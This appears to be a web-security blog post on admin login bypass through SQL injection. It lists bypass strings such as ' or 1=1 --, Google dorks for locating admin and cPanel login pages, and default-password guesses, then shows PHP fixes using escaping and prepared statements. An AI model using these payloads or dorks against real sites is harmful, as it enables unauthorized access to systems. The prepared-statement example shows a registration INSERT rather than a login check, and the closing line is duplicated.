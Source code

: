 ```yaml
---
title: Mitigating Admin Login Bypass in Web Security
publishDate: '2024-07-02T08:06:27.420Z'
description: 'Understanding and Mitigating Admin Login Bypass in Web Security.'
tags: [Web Security, Authentication, SQLi, Cybersecurity, Bypass]
heroImage: {src: './image.png',color: '#d1edfe'}
draft: false
comment: true
---
```

Before exploring the complexities of bypassing admin login mechanisms, it’s crucial to understand what “Admin Login Bypass” actually involves. This technique enables unauthorized access to the admin login page of a website, bypassing standard authentication procedures. This exposure can potentially allow malicious entities to access and modify admin pages, highlighting significant vulnerabilities.

## The Importance of Robust Admin Login Security

The significance of secure admin logins cannot be overstated. Websites with weak authentication systems are prime targets for hackers. It is imperative for website owners to strengthen their admin logins to prevent unauthorized access, thereby protecting sensitive data and maintaining site integrity.

## Connection to SQL Injection

Admin login bypass is closely associated with SQL Injection — a common security vulnerability that allows attackers to impersonate an admin through malformed SQL queries. For example, using a username and password combination like “admin” or “1=1” manipulates the SQL query, granting access without further exploitation.

## Commonly Used SQL Queries for Bypass

In the realm of unauthorized access, certain SQL queries are notoriously used to bypass admin logins. Some of these include:

*   `admin' #`
*   `admin' or '1' = '1`
*   `admin' or '1' = '1' #`
*   `admin 'or 1 = 1 or' '='`
*   `'or 1 = 1 limit 1 -- -+`
*   `' or '1' = '1`
*   `' or 'x' = 'x`
*   `' or 0 = 0 -`
*   `'or 0 = 0 #`
*   `' or 1 = 1 --`
*   `'or' one '=' one`
*   `'or 1 = 1 -- -'or'`

## Using DORKs and Payloads for Bypassing Admin Logins

To ethically test these vulnerabilities in controlled environments, here are some Google DORKs and payloads used to find and exploit weak login systems:

**DORKs:**

*   `inurl:/admin/login.php site:il`
*   `inurl:/admin/login.php "administrator"`
*   `inurl:/cpanel/login.php`
*   `inurl:/cpanel/admin.php`
*   `inurl:/cpanel/`

**Payloads for Auth/Author Bypass:**

*   `' or 1=1 limit 1 -- -+`
*   `'="or'`
*   `admin`
*   `pass`
*   `pass123`
*   `1234`
*   `administrator`
*   `passwd`

## Mitigating the Bypass Vulnerability

To mitigate such vulnerabilities, enhancing script security in login systems is critical. A practical approach includes refining the PHP login script to employ more secure practices:

**Original Code:**
```php
$username = $_POST["username"];  
$password = $_POST["password"];
```
**Revised Code:**
```php
$username = mysqli_real_escape_string($conn, $_POST["username"]);  
$password = mysqli_real_escape_string($conn, $_POST["password"]);
```
Incorporating functions like `mysqli_real_escape_string` helps prevent SQL injection by escaping special characters in input strings, thus securing the login process against such exploits.

## Beyond Simple Escaping: Strengthening Security with Advanced Techniques

While `mysqli_real_escape_string` is beneficial, employing prepared statements offers a more robust defense against SQL Injection. Prepared statements handle all escaping automatically and can improve performance with repeated query executions.

**Example with Prepared Statements using MySQLi:**

```php
// Create database connection  
$conn = new mysqli($servername, $username, $password, $dbname);  
  
// Check connection  
if ($conn->connect_error) {  
    die("Connection failed: " . $conn->connect_error);  
}  
  
// Retrieve data from POST  
$username = $_POST["username"];  
$hashedPassword = password_hash($_POST["password"], PASSWORD_DEFAULT);  
  
// Prepare SQL statement  
$stmt = $conn->prepare("INSERT INTO users (username, password) VALUES (?, ?)");  
  
// Bind parameters to the statement  
$stmt->bind_param("ss", $username, $hashedPassword);  
  
// Execute statement  
$stmt->execute();  
  
// Close statement and connection  
$stmt->close();  
$conn->close();
```
This example demonstrates the security enhancements achieved by using prepared statements and hashing passwords, providing robust protection against SQL injection and securing user passwords effectively.

## Conclusion

In conclusion, the security of admin login systems is paramount. By understanding the methods used for bypasses and employing more secure coding practices, web administrators can significantly reduce vulnerabilities and enhance the security posture of their sites.

vulnerabilities and enhance the security posture of their sites.

* * *

**Thanks to**: Ketapang Cyber Team
